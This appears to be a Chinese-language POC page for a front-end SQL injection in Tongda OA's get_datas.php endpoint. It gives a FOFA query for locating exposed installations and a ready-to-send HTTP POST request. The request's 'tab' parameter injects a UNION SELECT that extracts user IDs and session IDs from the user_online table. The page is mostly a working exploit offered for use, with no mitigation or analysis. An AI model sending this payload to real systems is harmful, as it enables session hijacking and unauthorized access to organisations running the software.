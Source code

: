 ## 通达OA get_datas.php前台sql注入

##  fofa
```
app="TDXK-通达OA"
```

## POC
```

post /general/reportshop/utils/get_datas.php HTTP/1.1
Host: {{HostName}}
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 2

USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```
![image](https://github.com/wy876/POC/assets/139549762/55ba1ee3-215b-4fd2-8c0c-0694a20f6bfd)

![image](https://github.com/wy876/POC/assets/139549762/3d0399a3-9fe9-46d9-b725-12acb84d422c)


## 漏洞来源
```
https://forum.butian.net/share/278
```
